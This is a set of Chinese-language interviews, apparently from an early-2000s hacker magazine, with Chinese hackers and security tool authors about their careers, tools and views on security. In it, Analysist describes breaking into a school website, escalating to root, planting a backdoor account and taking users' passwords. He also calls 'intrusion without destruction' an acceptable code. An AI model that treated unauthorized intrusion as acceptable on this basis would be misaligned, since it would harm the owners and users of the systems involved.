Analysist：我第一次发现的是章鱼论坛的安全漏洞，包括任意用户升级为管理员、未经授权修改其他用户信息以及通过提交特殊帐号密码直接访问论坛管理模块的漏洞。当时接触网络安全虽然已经有了一段时间，但是实践经验还比较少。我们学校有一个叫做蓝宝石的站点，我一直想着有朝一日能够“黑”了它，呵呵……有一天看到了它的论坛，于是就到网上下了一个看看，结果就发现了以上提及的漏洞，当然我也就获得了论坛的全部注册用户的帐号密码。为了扩大战果，我仔细观察了一下网站的首页，发现上面提到了网站的工作人员名单，结果就找到了一个在论坛注册的工作人员的帐号，于是很顺利地进入了该网站。然后找了一个盗址程序升级为 root，又增加了一个 uid 为 0 的后门帐号，接着下载了该网站所开设的 FireBird BBS 的全部帐号密码，然后就退出了。也许就是因为这次的经历，让我走上了专门研究 CGI 安全的道路。

Zero：在 CGI 系统加固和 CGI 程序检测上，你有什么样的心得和体会？

Analysist：我想我的心得已经全部体现在我以前写的文章里了，大家可以到我的网站找到我写的全部文章。

Zero：你对 CGI 漏洞方面很有研究，能给我们读者介绍一下 CGI 漏洞的定义和分类吗？

Analysist：首先还是说一下什么是 CGI 吧，CGI 是 Common Gateway Interface 的简称，它不是单纯的一种语言。实际上，凡是支持标准输入和标准输出的语言都可以称之为 CGI 语言，这可以包括 ASP、PHP、JSP 和 Perl，也可以是 C、VB、VC++ 等。漏洞实际上就是未授权的访问或者越权。CGI 漏洞也是如此。关于漏洞的分类有很多方式，大致可以分为设计缺陷、配置错误、变量缺乏过滤以及意外情况处理失败等类型，关于详细的分类可以参考我以前的文章。

Zero：对于 CGI 的研究需要些什么样的基础？

Analysist：作为最基本的条件，你应该至少对一种 CGI 语言比较熟悉，这不仅包括编程，也包括其工作原理。如果你想研究得比较深入的话，还需要对操作系统、Web 服务器和数据库有足够的了解。

Zero：在你的网站公告中将有几个漏洞公布，可以给我们读者简单透露一下吗？

Analysist：由于特殊的原因，本来计划发布的漏洞公告可能要有所改变；至于具体的信息，还请大家密切关注我的网站吧。

Zero：你网站上自我介绍说自己是双重性格，如何理解，是不是觉得生活让你很矛盾？你如何解决生活中的困惑？

Analysist：这里所说的双重性格实际上是指我在现实社会和网络世界中具有两种不同的性格，现实社会中的我不苟言笑，往往给人一种不易接近的感觉。而在网络世界中，我则是完全不同的一个人。不过我就是我，与生俱来的敏捷性格，以及心直口快的特点始终没有一点改变，也许正是由于这些性格的因素，我的朋友很少，不过我从来不因此感到后悔。

Zero：在你网站里，看到了你对漏洞研究的许多成果，当你发现一个新漏洞时，你的第一想法是什么？

Analysist：准确地说，我的安全公告里绝大多数都不是单指某个站点的漏洞，而是某种 Web 服务器、应用程序或论坛的漏洞，而使用这些程序的网站可能有成千上万。发现了严重漏洞，我一般会通知我们公司，而公司有专人负责和厂商或者站长联系，等他们发布新版本或补丁时，我们公司就会发布安全公告，然后我在自己的站点发布安全公告。如果是不太严重的漏洞，我一般就直接在自己的站点发布安全公告。

Zero：国内和国外在 CGI 漏洞安全方面差距大吗？

Analysist：根据我的经验来看，国内外的 CGI 安全漏洞研究方面没有非常明显的差距，当然需要说明的一点是，国内的绝大多数网站还没有给予 CGI 安全足够的重视，虽然我们一直在努力。

Zero：对于想学习黑客技术的朋友有什么忠告和建议吗？

Analysist：我想还是把建议放在前面说吧，那就是学好计算机基础知识，多多吸取前人的经验，经常通过实践来巩固所得。至于忠告呢，可以入侵，但最好不要破坏。

Zero：当你把你发现的漏洞通知网络管理员时，他们一般如何处理这件事？

Analysist：以前如果你给网络管理员发信，告诉他们系统存在这样那样问题的时候，大多数情况下不会得到任何反馈消息。好在现在很多网络管理员的安全意识增强了，很多时候你可以得到他们的答复。

Zero：许多网站被黑后，往往会处于一种很尴尬的状况！你觉得应该如何正确看待这类安全事件？

Analysist：大多数情况下，我不赞成修改别人的页面，毕竟中国有句古话，“打人不打脸”，再说搞安全的目的毕竟不是为了破坏。对于网络管理员，我觉得在被黑之后还是好好反思一下自己的网站是否足够安全。

Zero：如何评价目前我国的安全现状？

Analysist：不断发展的状态，但是速度还远远不够快。

Zero：就你目前的事业来看，是需要勤奋多一些还是天分多一些？

Analysist：这个很难量化，不过感觉前者还是要多一些吧。

Zero：因为你的身份你接触过很多安全人员或者黑客，你能给他们简单作一个分类吗？

Analysist：基本上分为四类，一类是资格老但技术平平，一类是出道较晚但技术高超，还有一类是菜鸟，最后一类是介于这三者之间的人，出道不是很早，技术也不是很差。当然这只是一个大概的分类，因为技术高低都是相对的，古人说过“闻道有先后，术业有专攻，如是而已”。

Zero：安全这个工作，有时候是很枯燥的，你是如何长久地保持这种兴趣的呢？

Analysist：的确是这样的，尤其是对于专门搞研究的人来说，虽然每天都接触新知识，但是时间久了难免感到枯燥乏味，这时只有靠自己去调节了，可以多逛论坛、听听音乐、参加一些体育运动，如踢球什么的，也许会好些。

Zero：黑客安全技术走向商业化运作需要一段必然的市场认可期，你如何看待黑客技术商业化？

Analysist：市场经济条件下，黑客安全技术走向商业化是必然的结果，我想这个市场认可期的长短，实际上就是人们的网络安全意识提高的速度吧。

Zero：和国外黑客打过交道吗？有过交锋吗？

Analysist：打过交道，但没有交过锋，因为我和他们打交道是为了交流，而不是交锋。

Zero：当你在渗透某个网站时，突然发现已经有人先你而来过，下一步你会做些什么工作？

Analysist：目前还没有遇到，因为我很少入侵。如果真的遇到这种情况的话，我想我会先去除别人安装的后门，然后安装自己的后门。

Zero：作为一个安全人员，什么样的工作环境最理想？

Analysist：如果从一个技术人员的角度来看，当然希望自己有良好的实验环境、自由的工作内容以及充足的发展空间。

Zero：在“红色警戒”的世界里，你们的行为准则是什么？

Analysist：可以入侵，不能破坏，是红色警戒网络安全小组（C4ST）共同遵守的行为准则。

Zero：你觉得一个优秀的安全人员应该具备什么素质？

Analysist：谦虚谨慎的态度，不断学习的精神以及善于思考分析的品质。

Zero：最让你觉得有成就感的一件事是什么？

Analysist：暂时还没有感到很有成就感的事情，不过善于从 80 端口入侵也算是比较自豪的方面吧。

Zero：安全问题千丝万缕，最优秀的安全人员也难避免有忽略的地方，对国内的安全问题站在你的角度，有什么建议吗？

Analysist：我觉得国内的安全问题之所以那么严重，主要还是由于人们的安全意识导致的。如果大家的安全意识提高了，这样安全问题自然就会减少。那么安全意识怎么才能得到提高呢？除了加大宣传教育的力度之外，我觉得还是因为人们没有意识到安全的重要性，常常觉得安全与自己没有多大关系，离自己很遥远。大家都知道，如果一个国家很久不打仗的话，那么军队的战斗力肯定会下降，平日缺乏训练的结果就是如此，这也就是为什么会有军事演习出现，网络安全难道不也是这样吗？

Zero：参加或者组织过黑客事件吗？

Analysist：没有吧，我喜欢单独行动！:P

Zero：在技术这块领域里，相互交流很重要，你和你的“红色警戒小组”是如何协同工作的？目前你希望你的工作得到别人的帮助吗？

Analysist：红色警戒网络安全小组（C4ST）是一个非赢利性组织，由一群网络安全爱好者组成，目前有 112 名成员。我们一般通过 OICQ、Email 和本站的留言板进行交流，同时我们也有自己的固定 IRC（irc.norror.org:6667/#c4st），但主要用作开会之用。我们希望有条件的人们为我们提供服务器空间，因为我们目前的虚拟主机还不够理想，可以通过 analysist@x263.net 联系。

Zero：未来的目标是什么？

Analysist：我当然希望将来有自己的公司，而现在我必须努力地学习和工作，为这个未来的目标准备条件。

Zero：除了工作，还有些什么样的爱好？

Analysist：其实我爱好很多，流行音乐、体育运动、电脑游戏、打牌、下棋、钓鱼、看录像等等都非常喜欢。当然，对好吃和睡觉也很感兴趣！:P

Zero：听说你比较喜欢摇滚，喜欢哪些类型的摇滚音乐，你觉得黑客和摇滚有什么相通的地方吗？

Analysist：喜欢以前黑豹那样的摇滚音乐，和黑客的确有些相通点，但是我说不出来，可意会而不可言传吧。

Zero：我们读者如何联系你，网站、QQ 或者 E-mail？

Analysist：大家可以去我的网站（http://www.china4alert.org）看看，有什么问题可以在留言板提问，当然也可以写信 analysist@263.net。

小榕，流光、朔雪、乱刀等黑客／安全作品的开发者，他的名字可以说被载入了中国黑客／安全发展史中辉煌的一页。他的软件相当普及，一次，通过非正常手段进入一台机器，赫然发现机器主人的桌面上放着“流光”……对很多黑客爱好者来说，流光就像 Winamp、WinZip 等常用工具一样，已经成为电脑不可或缺的一部分。

在他的“小榕软件实验室”（http://www.netxeyes.org/），在“关于小榕”的栏目里，他这样写道：无论在现实或是网络中，我都是孤独的……

最初开发流光这个东西，并没有想到会做成今天这个样子，最初的版本仅仅具有 POP3/FTP 的暴力破解功能，随着网络的发展，不断地加入新功能，才成为了现在这个样子。本来打算到流光 2.5 的时候就不再继续下去了，后来由于用的人很多，所以才促使我继续写下去。

## 小榕采访

Zero：小榕，你好，关于你的介绍我们很多读者在网上已经读过许多，更多的读者是通过你的作品知道你的。但是关于你的东西都是比较琐碎的，所以，我们还是先请你介绍一下自己吧？

小榕：我是一个程序员，人很普通。

Zero：“小榕软件实验室”是你一个人负责还是由几个人组成的团队？

小榕：我一个人。

Zero：你是什么时候涉入黑客或者安全这个领域的呢？或者说是什么触发了你对这个领域的兴趣？

小榕：我初次进入这个领域是 1996 年，从我开始使用 Cernet（中国教育科研网）开始。因为当时上网的费用非常高，例如发 E-mail 每 K 要收一毛钱，所以就开始尝试去 Crack 别人的帐号。

因为我的专业是软件，所以我具有较好的程序设计能力，这对于我后来开发一系列的软件是起了很大作用的。

Zero：当初开发流光的时候，想到过自己的作品影响这么广吗？你的作品现在这么普及，有没有担心过自己的作品会带来负面影响？

小榕：我没有想到影响会这么广。至于说到负面的影响，我想这个问题取决于怎么看了。同样的工具在网络中也有，只不过没有像流光这样高度集成的而已。

Zero：最初是怎么想到开发流光这个产品的？

小榕：最初开发流光这个东西，并没有想到会做成今天这个样子，最初的版本仅仅具有 POP3/FTP 的暴力破解功能，随着网络的发展，不断地加入新功能，才成为了现在这个样子。本来打算到流光 2.5 的时候就不再继续下去了，后来由于用的人很多，所以才促使我继续写下去。

Zero：你如何测试你软件的入侵部分呢？

小榕：首先是在内网测试，然后散发一些测试的版本给我熟悉的朋友帮我测试，这样我可以从不同的角度来发现问题。一个人的思维如果已经成为了模式，那么要改变是很困难的，有一些软件的缺陷是需要靠大家的测试来发现的。

Zero：未来的目标是什么？对自己的未来一直都很明确吗，有没有过彷徨和迷茫？在有困难的时候你是怎么克服的？

小榕：不断努力，遇到困难的时候，总是会告诉自己，如果现在就放弃了，那么就太没有责任心了，这样下去终究会一事无成。

Zero：对使用你软件的朋友有什么忠告吗？

小榕：知道自己在做什么，对自己负责，对别人负责。

Zero：你觉得你的性格叛逆吗？如果有，这样的性格给你带来了什么，又让你失去了什么？

小榕：前几年可能是，但是现在已经比较平和了，这样的性格给我带来的是一种坚持不懈的精神和一点灵感。

如果说失去了什么，我失去了现实的世界。

Zero：目前你的日常安全工作主要是些什么？

小榕：开发软件，研究一些安全方面的技术，渗透测试。

Zero：你认为我国现在面临的主要网络安全问题是什么？

小榕：对安全的意识。安全不仅仅在于主机或者操作系统，在更大程度上在于意识。有很多的管理人员对安全的意识淡漠，还有更多的人虽然也很注意安全问题，但是缺乏相关的知识和技术。安全不是一个单纯的技术问题，它和管理、教育、制度等有很大关系。

Zero：如何成为一名优秀的安全人员？

小榕：敏锐的嗅觉＋不懈的努力。

Zero：作为一个想进入黑客／安全这个门的朋友来说，应该注意从哪些方面锻炼自己，提升自己？

小榕：我觉得应该从一些基本的事情开始做起，例如关于对网络协议的深入了解等，而不是仅仅拘泥于对某个漏洞或者某个工具的使用。安全的技术发展很快，从技术上来说你不可能熟知所有的细节，但是熟知基础知识是了解这些细节的前提。

Zero：对去年发生的中美黑客大战有什么看法？

小榕：每个人都需要宣泄，只不过是方法不同而已。

Zero：现在很多年轻人对“黑客”很崇拜，对“黑客”技术很痴爱，你有什么忠告吗？

小榕：黑客不是一种职业，而是一种精神。

Zero：我看到你的“关于小榕”栏目里说，“如果有人破坏了这个美好。你就将……Assault！”在生活中与人相处，你觉得自己偏执吗？假设会有这种情况，在工作中，对方是你的竞争对手，在生活中，大家是朋友，你如何看待友情和工作的关系？

小榕：我不觉得我偏执，在大多数情况下我非常易于相处。人是需要工作的，但是也不能没有友情。

Zero：关于安全，对于个人用户而言一般就是防火墙加杀毒软件，而站在企业级用户的角度我们应该如何去理解安全呢？

小榕：安全不是一个孤立的东西，不能脱离企业的实际应用来说安全。企业的安全包括的方面很多，从技术的方面来说包括以下几个方面：

- 鉴别和认证
- 访问控制
- 审计和跟踪
- 响应和恢复
- 内容安全等

Zero：你最熟悉的开发软件是什么？你的作品一般是用什么语言开发？

小榕：C，90% 都是用 C 写的，也有很少的部分是 Java 开发的。

Zero：人与人之间的交流很重要，你说“无论在网络还是现实中，我都很孤独”，你的孤独源于你的性格还是你的工作性质？为什么？

小榕：来源于性格，为什么？孤独是一种感觉。

Zero：就安全这一块而言，未来的目标是什么？

小榕：成为安全领域的专家。

Zero：对不同的人而言，会在不同的阶段开始为自己的未来发展方向奠定基础，比如中学阶段、大学阶段、工作阶段等，你是在什么阶段为自己的未来发展奠定了基础？

小榕：应该是在大学阶段开始有了初步的想法，但是不是很明确。在我工作以后，有大量的时间来进行程序的设计，我觉得这一阶段为我以后的发展奠定了基础。

Zero：你下一个准备编写的黑客／安全软件是什么？

小榕：继续升级流光，目前暂定的版本为 5。会加入很多新的功能，使这个扫描工具更加完善和全面。

另外朔雪也会有升级版本出来，这个版本会有大量的新功能加入，不再单单是一个暴力破解的工具。

Zero：目前你所开发出的产品中，对哪个比较满意？

小榕：没有一个特别满意的。

在某一个阶段，可能会对某一个软件比较满意，但是现在回过头来看，这些软件都存在这样或者那样的问题。

所以，从这个意义上来说，我最满意的产品，是我的下一个产品。

Zero：你如何定义个人事业的成功标准？

小榕：成功包含的意义很多，做自己喜欢的事情也算是一种成功。

Zero：在开发程序过程中调试是比较繁琐的一项工作，你对于自己开发的软件持什么态度，打算以后走收费注册的模式呢，还是继续作为免费软件发放下去？

小榕：调试的确是一件非常辛苦的工作，但是把这件工作看作是在修饰一件艺术品，就会觉得其实调试也并不是毫无乐趣。近一段时间内都还没有注册收费的想法。

Zero：平时的业余爱好是什么？

小榕：玩 PS2，钓鱼，喝酒。

Zero：我们的读者如何联系你呢？

小榕：欢迎大家和我交流，可以发信到 security@vip.sina.com。另外，也欢迎大家登录我的论坛，我会经常在那里。

# 黑客人物面对面

## 采访狮子

LION，红客联盟（www.cnhonker.com）的站长，他曾经组织和参加过2001年5月的中美黑大战，那次事件本身引人注目的起因及多家媒体的大量报道，让红客联盟以及LION的名字为更多大众所熟知。但同时国内一些资深黑客对这次事件亦持有不同的意见和看法。

这里我们无意去评价那场红黑大战的是是非非，而是期望通过这次采访，让读者能了解更多与技术有关的知识。

Zero：Lion，你好，对于你的名字我们很多读者都是熟知的，也经常有读者问起你的行踪，请你首先自我介绍一下吧？

Lion：相信很多朋友都应该对我有一定的了解，以前在我的文章里也有一些关于我自己的介绍，在这里我就不再多说了：）

Zero：当初为什么想到取“Lion”这个名字？有什么来由吗？

Lion：取“lion”这个名字是在97年的时候，那时刚流行玩电脑游戏，在一些游戏中常要角色名，当时取名字的时候，顺手在自己的处理加了个“0”，当时并没留意到这个单词是狮子的意思，是在后来才注意到的。

Zero：你现在主要从事什么工作？

Lion：我自从2000年8月开始就在网络安全公司任职，现在在北京一家国内著名防火墙厂商里负责公司的安全服务以及安全培训工作。

Zero：对你来说，目前想要完成的近期目标是什么？对于未来有什么打算？

Lion：最近要完成的就是红客联盟新主页的建设了，至于未来的打算，我还不想说：）

Zero：叛逆的性格好像和黑客精神是绑定在一起的，或者说打破常规是黑客技术的一个重要特点，你如何理解自己的性格对你作为一个安全人员或者黑客的影响？

Lion：确实，我一直以来是比较叛逆的，比如在学校时上课睡觉啦，翘课玩游戏啦等等是经常干的事。关于对自己工作和生活的影响呢！可以跟大家分享我的一个我现在仍引以为豪的故事（旧事），上学的时候我曾经连续9天通宵打游戏，那一次瘦了11斤，嘿嘿...

Zero：什么原因让你进入黑客这个虚拟世界？

Lion：是个人的理想和目标吧！在我没接触互联网的时候我就立志要成为一名黑客。

Zero：安全工作中会使用到扫描工具，这些工具和黑客扫描工具有区别，它们一般有些什么样的特点呢？

Lion：可以这样来简单区分，一般黑客扫描软件扫描的内容比较简洁有针对性，扫描速度比较快捷，扫描得到的报告比较直接，适合让自己快速地了解网络现状；另外，黑客软件一般都是免费或者共享版本的软件。商业的扫描工具一般扫描项目太多、太详细，导致扫描速度较慢，扫描得到的报告很详细。同时会有一些漏洞的解决方法在上面，适合用户需要详细数据和解决方案时使用。

Zero：在关于黑客这块的技术上，你最初起步主要靠自学还是得益于他人的指点？

Lion：都是靠自己的自学。黑客这一领域没人会帮你的，如果靠别人的指点而不是自己去自学，说明你不适合做黑客。

Zero：做企业的安全项目时会考量到哪些安全环节？

Lion：网络安全项目也必须同时考虑到信息系统安全的三个主要方面。一个是物理安全，一个是系统安全，再是网络安全。

Zero：安全工程不是一个一劳永逸的工作，而是需要不断更新和维护的工作，目前国内的企业就网络安全这块的工作最迫切需要解决的问题是什么？

Lion：我觉得国内的安全企业最迫切需要解决的问题是有创新的产品，有创新的工作流程。现在国内的安全厂商大部分还停留在随便拿来改改源代码就发布的阶段。

Zero：在你今年年初关闭红客联盟网站的时候，你说9月份还会回来？当初为什么会关闭这个网站，是源于外界的压力，还是由于其他原因？

Lion：没有外界的压力，主要还是因为内部的问题。

Zero：通过黑客大战，它所产生的积极意义是什么？它的负面影响又是什么？

Lion：积极的意义，如果在安全公司工作的朋友都知道，当时带给安全公司的效益还是很高的，用户的安全意识明显增强。负面影响主要是由于媒体的大肆炒作，造成一些人对黑客的错误认识及对黑客行为产生了错误的导向。

Zero：我们发现很多黑客或者安全人员都非计算机专业出身，所以黑客技术作为一项特色安全技术，它的发展几乎与个人的兴趣有着直接的关系，你觉得黑客技术最终会让社会公认，走向专业化、系统化吗？

Lion：现在国内的黑客以及黑客组织，都只能在自己的业余时间里做这些事情，真正本职工作就是研究这些的是少之又少。国外的黑客组织一般都由政府的专门经费来支持，他们的本职工作就是研究这些的，从这当中我们可以看到差异与差距。同时国内对黑客的错误理解，导致黑客在中国走向专业化、系统化很难。

Zero：在现实的生活中你是一个性格外向的人吗？喜欢组织朋友或者同事活动吗？是和网上截然不同，还是一样的性格表现？

Lion：我在网络里和在现实生活中是一样的。我的性格比较孤僻、内向，朋友不多，不爱说话，不喜欢活动。

Zero：黑客大战这样的经历对于短暂的人生来说也许只有一次，你觉得这样的经历给你带来了什么？

Lion：我自己觉得带来了很多东西，比如满足感、成就感、认同感……同感，同时让自己的工作收入有了更大的提高。

Zero：现在有很多朋友来信问如何跨入黑客这个领域，你能谈谈你的看法吗？

Lion：现在Internet普及，全球有几十万个有关于黑客知识的大小网站，想要获取这方面的信息很容易，很多工具及文章都能够让很多人很快地入门。

不过，想要在这方面有更高更深的技术和更深入的进步，得看一个人的天赋以及计算机知识的积累是否足够了。

Zero：通过几次黑客大战，能预言在未来的战争中，黑客将会扮演什么样的角色？

Lion：我觉得随着黑客技术的发展将给我们带来网络信息战，黑客在以后的战争中将是政府用来对付敌人的一种武器，比如现在的美国已经在做相关的准备了。

Zero：在做一些渗透试验时，如何把握实验的深浅，有自己的道德准则吗？

Lion：这个是有的，一般渗透测试，都需要与客户签署保密协议的，比如，用户的信息不能泄露，不能实施破坏性操作等等，遵守与否就要看个人的素质问题了。

Zero：经过去年中美黑客大战，你总体评估一下现在中国的安全状况？

Lion：我是2000年开始接触黑客方面的，我觉得个人用户的安全意识虽然比两年前有了很大的改善，但仍然不容乐观，站点存在严重问题的比例依然很大。

Zero：业余时间多吗，有什么爱好？听说你的溜冰技术很高，能提供一张溜冰的照片吗？

Lion：最近工作忙了很多，现在在公司负责安全服务以及安全培训，能够给自己学习研究的时间越来越少了。关于爱好，以前读书的时候做过两年半的吉他手，毕业到现在几年没摸过，估计已经弹不出什么好听的曲子了；溜冰也是读书时候的爱好，现在已经很少去了，至于照片，很可惜，没有：）

Zero：有很多关注你的读者很想和你联系，能公布你的联系方式吗？

Lion：这个，大家都应该知道我的信箱的，如果不知道的话，我这里写一下，我的Email为lion@cnhonker.net，最后，也很希望一些有理想有技术的朋友们跟我联系。

进入rootshell的网站，看上去很朴素，就像一个私人文件堆放的地方，没有修饰，没有什么好玩的东西用以吸引无意中进来搜奇探异的网友。网站上有的只是一些基于Red Hat、FreeBSD下的文件缓冲区溢出程序或者后门程序，一些关于Solaris的相关文档等纯技术性的东西。网站上，有他的座右铭是“只有不能干的人，没有不能干的事”，站点的目标是“致力成为网络安全业界的灯塔”。今天我们就来特地采访这位魂绕高手——rootshell。

采访人：黑客X档案（以下简称X）

X：rootshell，你好！你的网名rootshell有什么特别的含义？能简单介绍一下自己吗？

Rootshell：起初是误解了黑客的真意，以为黑客的最终目标是为了获得操作系统的root shell，但后来发现其实黑客原来的含义是指那些长时间沉迷于计算机的程序员，喜欢探索软件程序奥秘，并从中增长个人才干的人。这个网名开始是一个目标，但后来了解黑客的真正定义后，这个网名就变成了一个警惕自己不能变成cracker的名字。

我的介绍……嘿嘿，去看我网站的个人介绍啦！；）网站地址是www.ns-one.org

X：现在从事什么样的工作呢？安全工作让你有何体会呢？

Rootshell：我现在在深圳一间不出名的网络安全公司工作，名字就不说了：）

我的工作可以让我了解网络安全的现状、网络安全行业的状况。

X：网络安全工作挺有挑战性的，其中涉及到系统安全、软件安全、物理安全以及管理员本身的素质，你如何看待目前我国网络安全的状况呢？

Rootshell：我国的网络安全现状是网络的安全防护能力差，基础信息产业严重依赖国外。因为无论在设计和施工都是关系到人的，所以最终问题还是全社会的信息安全意识淡薄。要改善我国网络安全的状况就必须由网络安全的基础教育抓起。

X：据统计其中很大一部分入侵来自内部，对于这些防不胜防的网络安全问题，你们如何处理和防范呢？

Rootshell：内部安全一直是一个比较头痛的问题，主要是由于网络管理员素质参差不齐。这个问题最终的解决办法就是动员所有网络管理员学习网络安全知识，提高整体的网络安全素质。

X：这里我们按照传统意义上对“黑客”的定义为标准，你觉得你是个黑客吗？或者你如何理解黑客这个词？

Rootshell：其实我已经说过了，我现在是以传统黑客的定义为目标，但我还没有到达真正黑客的水平。这两年国内出现了什么X客、X客的名称，其实我觉得这些名字也造成了好多人对黑客原义的误解。

X：找你拜师学黑客技术的朋友比较多吧？你认为黑客技术应该如何学习才有效？

Rootshell：呵呵，前期比较多，但何为黑客技术？我觉得传媒片面地把黑客技术宣传成就是为了非法进入别人机器的技术。

其实许多人已经把黑客这个名称误解了，导致连黑客技术这个名称也是一样。对于如何学习，其实我觉得学什么都是一样，就是一个字：“勤”！

X：在黑客这个领域拜师学艺的现象比较多，你如何看待这种现象？

Rootshell：呵呵，这个现象，不是不好，但我觉得不用拜师，如果是以交朋友的方式去学习会好一些，反正朋友就是要互相“利用”的。

X：网络安全行业近年来不太景气，没有前2年火了，主要是网络大环境不景气呢，还是其他综合因素？你能预测一下我国网络安全行业的走势吗？

Rootshell：我个人认为一是国家政策和环境问题，一个就是这个行业公司的经营者本身的经营管理理念。我觉得我国安全行业最终将只剩下财雄势大的三到四家大公司。

X：调查入侵事件的时候，除了加固系统，追踪入侵者也是必不可少，一般你会根据什么样的工作流程来追踪入侵者？

Rootshell：嘿嘿，这些可是我们紧急响应的过程啊，我说了等于泄漏公司秘密，不能说。

X：UNIX是你的强项，最初是怎样的状况开始学习UNIX的？

Rootshell：最初是因为UNIX许多版本是开放源代码的，而且黑客就是以追求资源共享、自由开发为原则的，所以我就开始学习UNIX方面的知识了。

X：你评估一下UNIX系统和Windows系统在安全方面各自的优势？

Rootshell：呵呵，其实这个问题，我还没有资格说，我个人认为其实两种系统都差不多。

其实每个系统都存在着安全问题，就看哪个系统使用的人数多，自然发现安全问题也就多啦，你说是不？

X：Solaris是SUN开发的一种网络操作系统，能给我们介绍一下这个系统主要应用的领域吗？

Rootshell：其实除了SUN公司外，还有IBM的AIX、HP的HP-UX都很流行的。为什么在国内发现那么多SUN公司的产品，主要就是该公司的发展战略问题。这类系统通常会作为一些大中型网站的服务器，比如说要求性能比较高的数据库型服务器，大中型公司的邮件服务器等。

X：目前国内基于UNIX或Linux主机相比Windows占了多大比重，整个趋势是在缩小呢还是扩大？

Rootshell：现在可以说使用Linux的人是越来越多了，可总的来说还是Windows的比重大。

主要是原来的那一批人，包括开发人员、使用人员等，都是以Windows为基础接触电脑的，所以针对Windows开发的软件还是比UNIX或Linux的多得多，所以造成了一种现象，就是越来越多人用Linux或UNIX作为服务器，但很少人用它们作为个人PC使用。

X：你能给初学者简单介绍一下学习黑客技术的步骤吗？

Rootshell：这些已经是老生常谈啦，不过我还是说一下。入门肯定是TCP/IP协议，之后就是一些关于Windows、UNIX下的系统基础的知识，再就是关于Windows、UNIX网络编程的知识。其实作为一个好学的人，当然是看的书越多，知识面越广，这样很多知识就会自然而然贯通。

X：一个技术过硬的网络安全人员，同样他的黑客技术也很厉害，你是如何做渗透实验呢？

Rootshell：呵呵，又问到与公司冲突的问题，其实渗透实验也没有什么好说的，而且我现在喜欢整体的安全防范技术胜于渗透技术。

X：对于个人上网用户有什么好的安全建议？

Rootshell：首先自然得了解自己的系统，打开必要的服务，不是必要的就不必打开。当然对于寻常使用到的服务，也要注意到这些服务是否存在安全问题。

X：对于中国的企业来说，当前务必要解决的安全问题是什么？

Rootshell：整体的网络管理人员的安全素质教育。

X：你的性格外向还是内向？性格能决定一个人黑客安全知识的学习程度吗？

Rootshell：内向，我觉得性格是能决定一个人黑客安全知识的学习程度，但也有例外的，有些人性格外向，可以结交许许多多朋友，他们可以汲取朋友们丰富的知识和技术。

X：对于黑客之间的战争你持什么看法？你协助或者参与黑客大战吗？

Rootshell：我很反对，其实黑客是不分国界的，何来中美黑客大战呢？

不过我一说这话，就得罪好多人啊。本来黑客是没有国界的，何来什么红客，这代表什么？代表中国？我觉得这些只会让人笑话。

X：目前在我国真正意义上的黑客有几个？你个人有什么看法？

Rootshell：我个人认为是没有，我说过原本黑客的定义了，我觉得是传媒造就出来的所谓的黑客比较多。

X：黑客技术是永不停步的技术，总是有新的漏洞、新的技术呈现，这样需要不断地学习和探索，有没有想过疏于学习之后的担心？

Rootshell：对，我现在就有这感觉，其实很正常，有得必有失！

X：你的第一次比较有成就感的入侵是怎么样的一个过程，能给我们回忆一下吗？

Rootshell：这个问题，我想一想，我不能说我没有进行过入侵，但我不得不说入侵只是人们的一种手段，甚至可以说是小孩子玩的事情，随着年龄的增长，你也会发现入侵只是一件好无聊的事情。

X：如果别人入侵你维护的系统，会有何感想？

Rootshell：呵呵，不知道，主要是还没有试过有人入侵过我所维护的系统，可能我这样说，会造成好多人向我攻击。嘿嘿。

X：和同行朋友之间交流得多吗，和同行之间交流对于提升技术有很大的帮助吗？

Rootshell：和同行之间交流技术不多，反而天南地北的闲聊要多得多。按道理来说，同行之间交流对于提升技术是有好大帮助的。

X：和国外的黑客交流多吗？和国内黑客相比，在思想上有什么大的差异吗？

Rootshell：有交流过，但不多，他们主要是交流比较多，不分国界，感觉到他们知道的东西、技术比我们快，可能是因为我们国内的人，一个是E文水平不太好，一个是要忙于维持生计，根本没有时间去交流。

X：除了安全／黑客，其他方面你还擅长些什么？有什么业余爱好？

Rootshell：呵呵，其他什么都一般般，我的爱好太多，主要是我比较喜欢玩。

X：我们的读者如何联系你呢，你的QQ或者EMAIL能公布吗？

Rootshell：可以，我的QQ是1734398；E-mail是sysadm@21cn.com；个人网站是www.ns-one.org。

“我没有那么COOL，其实我很土！”

提出来采访Snake的时候，他说希望问题不要太难，我说问题尽量避免涉及个人隐私吧，然后他就作了如上回答。

skserver作为一个影响力很广泛的跳板程序，深得很多朋友的喜爱。作为该工具的开发者，网络上的Snake则显得比较内敛和谦虚，网站上他道歉说以前版本的BUG影响了朋友们的实验，但同时又严正声明程序不得用于非法途径。

关于程序的负面影响，Snake说：“跳板一直是让人感觉比较‘阴暗’的程序，你们有没有办法让人们改变对它的印象呢？”我们有什么办法吗？这个没有答案的问题又回到了已经讨论过无数次的老话题上——刀，它可以是暴力工具，也可以是切菜、削水果、居家旅行的必备工具……

感谢中间“跳跃”这类技术无关的问题，打开了Snake的程序小屋（http://snake.gnuchina.org），一看就知道这是一个典型技术员风格的网站，简单明了，还略显粗糙。网站最上面是一幅一个男生对着镜子的素描画像，很特别。那我们的采访就从这里开始吧……

## 跳板高手——Snake

X：你好，Snake！你网站上的素描画像很特别，是你画的吗？有什么含义呢？

Snake：那张画像，其实是我在去年暂时离开安全行业的那段时间画的。那时心情比较阴暗，由于各种原因，感觉自己很压抑，学过的东西用不上来，于是只好坐在凳子上，拿着铅笔和画板，在上面勾画计算机显示屏的图形，而且只有2个显示，两个点心，啊……通常伤感的时候比较容易表达出来。这幅图画就是要让自己不时地看到，作为给自己的一种反面动力。

X：其实在X档案创刊时我们就认识了，但只简单地聊过几次，在这里给我们读者简单地介绍一下自己，好吗？

Snake：我其实是一个很简单的程序员。暨南大学物理系应用物理专业的学生，刚毕业的时候，只是会C，然后有机会到一个以DOS为平台、Borland C 3.1为开发工具的软件公司上班。我在那里学了C++、汇编。那时候，得到了2台废旧的电脑、编程和技巧的台订本，疯狂地学习其中很多基本编程知识和DOS下面巧妙的技巧。例如内存链表单元的操作、各种格式图像文件在VESA标准下的显示和TSR驻留程序的编写，病毒的隐藏和感染、传播等东西。那时完全是对自己不懂的东西感兴趣，很有动力地学习，真的是一种享受。记得有一次，设计一个棋类程序，为自己用巧妙的双重指针实现了用多行代码才实现的函数而沾沾自喜。（其实，也不是很高明，只是自我感觉良好^^）

一年多以后，学习Windows编程，学习VC。但是对为了工作任务而开发，感觉到有点沉闷。不过，对DOS下比较麻烦的图像编程，在Windows下，可以方便地实现，这点感觉真是兴趣来了。

